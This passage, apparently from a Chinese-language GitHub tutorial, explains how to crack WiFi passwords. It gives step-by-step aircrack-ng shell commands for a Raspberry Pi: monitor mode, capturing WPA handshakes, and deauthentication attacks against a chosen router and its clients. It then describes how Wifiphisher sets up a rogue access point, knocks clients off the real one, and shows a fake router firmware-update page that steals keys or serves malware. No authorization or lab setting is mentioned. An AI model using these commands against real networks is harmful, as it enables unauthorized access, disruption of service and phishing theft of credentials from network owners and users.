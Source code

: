 发现核显的电脑比独显的电脑慢很多，换用独显电脑

![](resources/2023-07-04-02-52-27.png)

破解成功

### 用树莓派（推荐）

第一个终端：
```shell
su root
# 如果网卡没有启动，就手动启动
ifconfig wlan0 up
# 把wlan0网卡切换到监听模式
airmon-ng start wlan0
# 杀掉可能影响监听的进程
airmon-ng check kill
# 扫描WiFi
airodump-ng wlan0mon
# 监听某个指定的WiFi并尝试抓取握手包，保存到当前目录
airodump-ng wlan0mon -c [频道号] --bssid [路由器的mac地址] -w ./
```

第二个终端：
```shell
# 对指定目标发起deauth反认证包攻击
aireplay-ng -0 [攻击次数] -a [路由器的mac地址] -c [连接设备的mac地址] wlan0mon
```

可多次攻击，等待第一个终端提示抓到握手包，之后流程与上面用kali虚拟机相同

## WiFiphisher 工具

Wifiphisher是一个安全工具,具有安装快速、自动化搭建的优点，利用它搭建起来的网络钓鱼攻击WiFi可以轻松获得密码和其他凭证。与其它（网络钓鱼）不同，这是社会工程攻击，不包含任何的暴力破解，它能轻松获得门户网站和第三方登陆页面的证书或WPA/WPA2的密钥。

[WiFiphisher的GitHub](https://github.com/wifiphisher/wifiphisher)

### 原理

1. 它会先创建一个伪造的无线访问接入点（AP）并把自己伪装成一个合法的WiFi AP，然后向合法无线访问接入点（AP）发动DoS攻击，或者在其周围创建一个射频干扰。 Wifiphisher通过伪造“去认证”或“分离”数据包来破坏现有的关联，从而不断地在范围内阻塞所有目标接入点的wifi设备。
2. 受攻击者登录假冒AP。Wifiphisher会嗅探附近无线区域并拷贝目标AP的设置，然后创建一个假冒AP，并设置NAT/DHCP服务器转发对应端口数据。那些被解除认证的客户端会尝试连接假冒AP。
3. 无论受害者访问什么页面，WiFiPhisher都会向受害者提供一个很逼真的路由器配置更改界面，并称由于路由器固件更新需修改路由器密码，Wifiphisher使用一个最小的web服务器来响应HTTP和HTTPS请求。一旦受害者请求互联网的页面，wifiphisher会用一个真实的假页面来回应，要求提供凭证或服务恶意软件。这个页面将专门为受害者制作。例如，一个路由器配置文件的页面将包含受害者的供应商的品牌。该工具支持针对不同钓鱼场景的社区构建模板。
